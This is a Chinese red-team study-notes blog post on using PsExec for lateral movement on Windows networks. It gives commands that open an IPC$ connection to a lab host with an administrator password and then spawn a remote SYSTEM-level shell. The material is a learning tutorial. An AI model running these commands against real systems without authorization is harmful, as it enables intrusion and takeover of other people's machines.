 ```yaml
---
title: 【内网学习笔记】22、PsExec 和 WMI 的使用
date: 2021-09-02 13:23:26
id: 210902-132326
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210902122716.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


## 1、PsExec

### PsExec.exe

PsExec 在之前的文章里提到过一次，参见[https://teamssix.com/210802-181052.html](https://teamssix.com/210802-181052.html)，今天来着重学习一下。

PsExec 是 PSTools 工具包里的一部分，其下载地址为：[https://download.sysinternals.com/files/PSTools.zip](https://download.sysinternals.com/files/PSTools.zip)

利用 PsExec 可以在远程计算机上执行命令，其基本原理是通过管道在远程目标主机上创建一个 psexec 服务，并在本地磁盘中生成一个名为 PSEXESVC 的二进制文件，然后通过 psexec 服务运行命令，运行结束后删除服务。

建立 ipc$ 连接

```
net use \\192.168.7.7\ipc$ "1qaz@WSX" /user:administrator
或者
net use \\192.168.7.7 /u:teamssix.com\administrator "1qaz@WSX"
```

在已经建立 ipc$ 的情况下，执行以下命令就可以获得 system 权限

```
PsExec.exe -accepteula \\192.168.7.7 -s cmd.exe
```

```
-accepteula 第一次运行 PsExec 会弹出确认框，使用该参数就不会弹出确认框
-s 以 System 权限运行远程进程，如果不用这个参数，就会获得一个对应用户权限的 shell
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210902092309.png)

如果没有建立 ipc$ 连接，也可以直接使用 PsExec 指定用户名密码进行连接

```
PsExec.exe \\192.168.7.7 -u administrator -p 1qaz@WSX cmd.exe
```

```
-u 域\用户名
-p 密码
```
